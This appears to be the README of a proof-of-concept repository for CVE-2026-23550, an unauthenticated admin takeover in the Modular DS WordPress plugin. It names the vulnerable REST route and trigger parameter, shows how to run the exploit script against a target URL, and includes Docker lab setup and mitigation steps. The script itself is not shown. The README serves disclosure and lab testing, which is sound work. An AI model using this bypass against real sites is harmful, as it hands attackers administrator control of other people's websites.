

# CVE-2026-23550-PoC
# CVE-2026-23550 - Modular DS WordPress Plugin **Unauthenticated Admin Access**

[](https://nvd.nist.gov/vuln/detail/CVE-2026-23550)
[](https://nvd.nist.gov/vuln/detail/CVE-2026-23550)
[](https://wordpress.org/plugins/modular-connector/)

**Proof-of-Concept (PoC)** demonstrating **CVE-2026-23550** - critical unauthenticated admin account takeover in **Modular DS WordPress plugin** (versions ≤2.5.1). Actively exploited in the wild.



**Attack Summary**: Flawed REST API routing in `/api/modular-connector/login` bypasses WordPress authentication when `origin=mo`, granting unauthenticated admin session cookies.

# 🚀 Quick Demo - If you have WP set up already

```bash
# Production-ready PoC
./CVE-2026-23550-PoC.sh http://target.com
```
# Output:
```
[+] CVE-2026-23550 Modular Connector Exploit Test
[+] VULNERABLE: Admin session cookie issued
```
# Technical Note:
The affected REST endpoint is accessible exclusively via the ?rest_route= mechanism; direct access through /wp-json/ may be unavailable. The vulnerability allows unauthenticated access without credentials or nonce validation. Successful issuance of a WordPress administrator session cookie constitutes confirmation of exploitation. This proof-of-concept does not execute any administrative actions. Modular DS version 2.5.0 is used while testing.

---

# ⚙️ Steps to Reproduce:
# Step 1: Lab directory
```bash
mkdir -p ~/Desktop/CVE-2026-23550/cve-poc-wp
cd ~/Desktop/CVE-2026-23550/cve-poc-wp
```

# Step 2: Docker Compose
```bash
version: "3.9"

services:
  db:
    image: mysql:8.0
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: rootpass
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wpuser
      MYSQL_PASSWORD: wppass
    volumes:
      - db_data:/var/lib/mysql

  wordpress:
    image: wordpress:6.4.3-php8.2-apache
    depends_on:
      - db
    ports:
      - "8080:80"
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wpuser
      WORDPRESS_DB_PASSWORD: wppass
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wp_data:/var/www/html

volumes:
  db_data:
  wp_data:
```

# Step 3: Deploy
```bash
docker compose up -d
docker compose logs -f db
```
Wait for: "ready for connections"

# Step 4: WordPress install
- URL: http://localhost:8080
- Admin user: admin
- Password: admin123
- Site title: anything

# Step 5: Verify REST (IMPORTANT)
```bash
curl http://localhost:8080/?rest_route=/
```

Expected:
```bash
{
  "name": "...",
  "namespaces": [...]
}
```
If this fails → STOP, environment is broken.

# Step 6: Install vulnerable plugin
```bash
wget https://downloads.wordpress.org/plugin/modular-connector.2.5.0.zip
unzip modular-connector.2.5.0.zip

WORDPRESS_ID=$(docker compose ps -q wordpress)
docker cp modular-connector "$WORDPRESS_ID":/var/www/html/wp-content/plugins/

docker exec "$WORDPRESS_ID" chown -R www-data:www-data \
  /var/www/html/wp-content/plugins/modular-connector
```

# Step 7: Activate plugin

- http://localhost:8080/wp-admin/plugins.php
- Activate Modular Connector
- Ignore onboarding prompts

# Step 8: Exploitation
```bash
chmod +x CVE-2026-23550-PoC.sh
./CVE-2026-23550-PoC.sh http://localhost:8080/
```
Note: If you want cookies in a text file then remove "rm -f "$COOKIE_JAR"" from poc.sh file.

## 🛡️ Mitigation

- Immediate: Deactivate Modular DS plugin
- Patch: Upgrade to 2.5.2+
- Audit: Check for unauthorized admin users
- WAF: Block ?rest_route=/api/modular-connector/login


## 📄 License
MIT License - For security research and authorized pentesting only.
Not for malicious use. Disclose responsibly.

## 🚨 Legal Notice
This PoC is for **authorized security testing only**. Unauthorized use against production systems is illegal. Report findings to plugin maintainers.

